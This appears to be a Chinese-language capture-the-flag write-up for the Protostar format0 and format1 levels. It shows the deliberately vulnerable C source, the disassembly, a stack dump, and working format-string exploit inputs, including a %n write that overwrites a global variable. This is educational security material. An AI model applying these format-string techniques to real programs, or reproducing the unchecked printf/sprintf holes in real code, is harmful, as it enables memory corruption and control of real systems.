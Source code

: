 # Format

## Format

### About

This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.

**Hints**

* This level should be done in less than 10 bytes of input.
* “Exploiting format string vulnerabilities”

This level is at /opt/protostar/bin/format0

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);

  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

`sprintf`指的是**字符串格式化命令**，主要功能是**把格式化的数据写入某个字符串中**。`sprintf` 是个[变参](https://baike.baidu.com/item/变参/9844833)函数。使用`sprintf` 对于写入`buffer`的字符数是**没有限制**的，这就存在了`buffer`溢出的可能性。

用objdump查看一下汇编代码，`target`变量在`ebp-0xc`处，`buffer`在`ebp-0x4c`处，二者相距`0x40`（64个字节），所以通过格式化字符串，**写入64个字符（从栈中格式化字符串的后面取值），后面跟上0xdeadbeef**，就能将`target`的值覆盖成`0xdeadbeef`。

```javascript
080483f4 <vuln>:
 80483f4:    55                       push   ebp
 80483f5:    89 e5                    mov    ebp,esp
 80483f7:    83 ec 68                 sub    esp,0x68
 80483fa:    c7 45 f4 00 00 00 00     mov    DWORD PTR [ebp-0xc],0x0
 8048401:    8b 45 08                 mov    eax,DWORD PTR [ebp+0x8]
 8048404:    89 44 24 04              mov    DWORD PTR [esp+0x4],eax
 8048408:    8d 45 b4                 lea    eax,[ebp-0x4c]
 804840b:    89 04 24                 mov    DWORD PTR [esp],eax
 804840e:    e8 ed fe ff ff           call   8048300 <sprintf@plt>
 8048413:    8b 45 f4                 mov    eax,DWORD PTR [ebp-0xc]
 8048416:    3d ef be ad de           cmp    eax,0xdeadbeef
 804841b:    75 0c                    jne    8048429 <vuln+0x35>
 804841d:    c7 04 24 10 85 04 08     mov    DWORD PTR [esp],0x8048510
 8048424:    e8 07 ff ff ff           call   8048330 <puts@plt>
 8048429:    c9                       leave
 804842a:    c3                       ret
```

你可以写入`64个A`或者其他的，或者可以通过`%64c`写入64个字符，后面在加上`deadbeef`。**$\(\)**是用来做**命令替换**的，先执行`$()`里面的命令，得到返回结果进行替换。

### Exp

```bash
user@protostar:/opt/protostar/bin$ ./format0 $(echo -en "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde")
you have hit the target correctly :)

user@protostar:/opt/protostar/bin$ ./format0 $(echo -en "%64c\xef\xbe\xad\xde")
you have hit the target correctly :)
```

## Format1

### About

This level shows how format strings can be used to modify arbitrary memory locations.

**Hints**

- objdump -t is your friend, and your input string lies far up the stack :)

This level is at /opt/protostar/bin/format1

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

解决方案如下：我们确定目标变量的地址。我们以格式字符串传递此地址。格式字符串实际上是一个参数，将保存在堆栈中。然后，我们确定地址在堆栈中的位置，并使用`％XX\$n`(应该是%XX$n的形式，但是由于输出的时候可以被转义，所以加上一个"\\")，其中XX是数字。

首先通过`objdump`查看符号表，可以看到target的地址是`0x8049638`，处于`bss段`。

```shell
$ objdump -t format1
080483f4 g     F .text	00000028              vuln
08049638 g     O .bss	00000004              target
0804963c g       *ABS*	00000000              _end
00000000       F *UND*	00000000              puts@@GLIBC_2.0
08049630 g       *ABS*	00000000              _edata
080484aa g     F .text	00000000              .hidden __i686.get_pc_thunk.bx
0804841c g     F .text	0000001b              main
080482c0 g     F .init	00000000              _init
```

我们通过%p（以地址形式显示）打印栈中的内容。我们在后面发现了有`0x41414141`，`0x41`就是'`A`'的ascii值。

```shell
$ user@protostar:/opt/protostar/bin$ ./format1 $(python -c "print('AAAAAAAA' + '%p-' * 150)")
AAAAAAAA0x804960c-0xbffff5d8-0x8048469-0xb7fd8304-0xb7fd7ff4-0xbffff5d8-0x8048435-0xbffff7b7-0xb7ff1040-0x804845b-0xb7fd7ff4-0x8048450-(nil)-0xbffff658-0xb7eadc76-0x2-0xbffff684-0xbffff690-0xb7fe1848-0xbffff640-0xffffffff-0xb7ffeff4-0x804824d-0x1-0xbffff640-0xb7ff0626-0xb7fffab0-0xb7fe1b28-0xb7fd7ff4-(nil)-(nil)-0xbffff658-0x90bcfb24-0xbaef4d34-(nil)-(nil)-(nil)-0x2-0x8048340-(nil)-0xb7ff6210-0xb7eadb9b-0xb7ffeff4-0x2-0x8048340-(nil)-0x8048361-0x804841c-0x2-0xbffff684-0x8048450-0x8048440-0xb7ff1040-0xbffff67c-0xb7fff8f8-0x2-0xbffff7ad-0xbffff7b7-(nil)-0xbffff982-0xbffff990-0xbffff9a4-0xbffff9c6-0xbffff9d9-0xbffff9e3-0xbffffed3-0xbfffff11-0xbfffff25-0xbfffff3c-0xbfffff4d-0xbfffff55-0xbfffff65-0xbfffff80-0xbfffff8d-0xbfffffc1-0xbfffffd4-0xbfffffe0-(nil)-0x20-0xb7fe2414-0x21-0xb7fe2000-0x10-0x178bfbbf-0x6-0x1000-0x11-0x64-0x3-0x8048034-0x4-0x20-0x5-0x7-0x7-0xb7fe3000-0x8-(nil)-0x9-0x8048340-0xb-0x3e9-0xc-(nil)-0xd-0x3e9-0xe-0x3e9-0x17-0x1-0x19-0xbffff78b-0x1f-0xbffffff2-0xf-0xbffff79b-(nil)-(nil)-(nil)-(nil)-(nil)-0x80000000-0x9dc2ee44-0x412db7ab-0xbe1a1728-0x694ebebc-0x363836-(nil)-(nil)-(nil)-0x662f2e00-0x616d726f-0x41003174-0x41414141-0x25414141-0x70252d70-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-
```

通过多次尝试，我们找的了`BBBB`的对应位置，我们需要在`BBBB`填入`target的地址`，然后用`%n`将改地址写入内容。

`%k$x`表示要泄漏偏移k处4字节长的16进制数据，比如我输入`AAAA%3$08x`,就可以得到位于`format参数`下面第三个数据。

```shell
$ user@protostar:/opt/protostar/bin$ ./format1 $(python -c "print('ABBBBCCC' + '%133\$p')")
ABBBBCCC0x42424242

$ user@protostar:/opt/protostar/bin$ ./format1 $(python -c "print('ABBBBCCC' + '%133\$p')")
ABBBBCCC0x42424242user@protostar:/opt/protostar/bin$ ./format1 $(python -c "print('A\x38\x96\x04\x08CCC' + '%133\$p')")
A8CCC0x8049638

$ user@protostar:/opt/protostar/bin$ ./format1 $(python -c "print('A\x38\x96\x04\x08CCC' + '%133\$n')")
A8CCCyou have modified the target :)
```

